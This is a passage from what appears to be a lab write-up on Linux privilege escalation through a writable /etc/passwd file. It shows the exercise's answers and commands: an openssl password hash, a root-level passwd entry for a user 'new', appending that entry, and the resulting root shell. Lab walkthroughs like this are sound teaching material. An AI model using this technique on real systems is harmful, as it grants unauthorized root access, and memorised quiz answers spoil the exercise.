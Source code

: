 ```bash
$ su user7
Password:
user7@polobox:~$
```

No answer needed

***#2 Having read the information above, what direction privilege escalation is this attack?**

Answer : vertical

**#3 Before we add our new user, we first need to create a compliant password hash to add! We do this by using the command: "openssl passwd -1 -salt [salt] [password]"**

**What is the hash created by using this command with the salt, "new" and the password "123"?**

```bash
user7@polobox:~$ openssl passwd -1 -salt new 123
$1$new$p7ptkEKU1HnaHpRtzNizS1
```

Answer: $1$new$p7ptkEKU1HnaHpRtzNizS1

**#4 Great! Now we need to take this value, and create a new root user account. What would the /etc/passwd entry look like for a root user with the username "new" and the password hash we created before?**

Answer: new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash

**#5 Great! Now you've got everything you need. Just add that entry to the end of the /etc/passwd file!**

```bash
user7@polobox:~$ nano /etc/passwd
```
add to end of file and press ctrl+O then ctrl+X

No answer needed

**#6 Now, use "su" to login as the "new" account, and then enter the password. If you've done everything correctly- you should be greeted by a root prompt! Congratulations!**

```bash
user7@polobox:~$ su new
Password: 
Welcome to Linux Lite 4.4
 
You are running in superuser mode, be very careful.
 
Sunday 23 August 2020, 17:21:02
Memory Usage: 332/1991MB (16.68%)
Disk Usage: 6/217GB (3%)
 
root@polobox:/home/user7# 
```

No answer needed

# [Task 7] Escaping Vi Editor
